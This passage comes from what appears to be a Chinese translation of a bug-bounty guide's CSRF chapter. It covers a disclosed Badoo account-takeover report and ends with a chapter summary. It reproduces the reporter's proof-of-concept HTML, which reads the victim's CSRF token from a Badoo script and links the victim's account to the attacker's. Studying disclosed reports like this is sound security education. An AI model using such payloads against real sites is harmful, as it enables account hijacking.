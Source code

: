 > 重要结论

> 这种情况下，这个漏洞可以使用代理服务器来发现，例如 Burp 或者 Firefox 的 Tamper Data，来观察发送给 Shopify 的请求，并主要到这个请求使用 GET 方式来执行。由于这是个破坏性操作，而 GET 请求不应该修改任何服务器上的数据，这应该是一些需要关注的事情。

### 3\. Badoo 账户的完整控制

难度：中

URL：`https://badoo.com`

报告链接：`https://hackerone.com/reports/127703`

报告日期：2016.4.1

奖金：$852

描述：

如果你仔细检查 Badoo ，你会发现，它们通过包含 URL 参数`rt`来防御 CSRF，它只有 5 个位数（至少在我写这篇的时候）。虽然我在 Badoo 入驻 HackerOne 的时候就注意到了，我并没有找到利用它的方式，但是`zombiehelp54`找到了。

发现`rt`参数以及其值之后，它也注意到了，参数一户在所有 JSON 响应中都返回。不幸的是，这并没有什么帮助，因为 CORS 保护了 Badoo，攻击者无法读取这些响应，所以它继续挖掘。

最终，文件`https://eu1.badoo.com/worker-scope/chrome-service-worker.js`包含了`rt`值。更好的是，这个文件可以由攻击者任意读取，而不需要受害者做什么，除了浏览这个恶意页面。这里是它提供的代码。

```html
<html> 
<head> 
<title>Badoo account take over</title> 
<script src=https://eu1.badoo.com/worker-scope/chrome-service-worker.js?ws=1></s\ cript> 
</head> 
<body> 
<script> 
function getCSRFcode(str) { 
    return str.split('=')[2]; 
} 
    window.onload = function(){ 
    var csrf_code = getCSRFcode(url_stats); 
    csrf_url = 'https://eu1.badoo.com/google/verify.phtml?code=4/nprfspM3yfn2SFUBear08KQaXo609JkArgoju1gZ6Pc&authuser=3&session_state=7cb85df679219ce71044666c7be3e037ff54b560..a810&prompt=none&rt='+ csrf_code; 
    window.location = csrf_url; 
}; 
</script>
```

本质上，当受害者加载此页面时，它会调用 Badoo 的脚本，为用户获取`rt`参数，之后代表受害者进行调用，这里，它将受害者的账户链接到了攻击者的，本上上完成了账户的控制。

> 重要结论

> 无风不起浪。这里，攻击者注意到了`rt`参数在不同位置返回，特别是 JSON 响应，因此，它正确猜测了，它可能出现在一些可以利用的地方，这里是 JS 文件。

> 继续干吧，如果你觉得一些东西可能会发生，一定要继续挖掘。当你访问目标站点或应用时，使用 Burp 检查所有被调用的资源。

## 总结

CSRF 表示另一个攻击向量，并且可能在受害者不知道，或者不主动执行操作的情况下发生。CSRF 漏洞的发现可能需要一些机智，同样，也需要测试任何东西的渴望。

通常，如果站点执行 POST 请求，Web 表单都统一由应用框架保护，例如 Rails，但是 API 又是另外一个事情。例如， Shopify 使用了 RoR 编写，它对所有表单默认提供了 CSRF 保护（当然也可以关掉）。但是，显然意见，这对于使用框架创建的 API 不一定成立。最后，一定要观察任何通过 GET 请求执行的，修改服务器数据的调用（例如删除操作）。
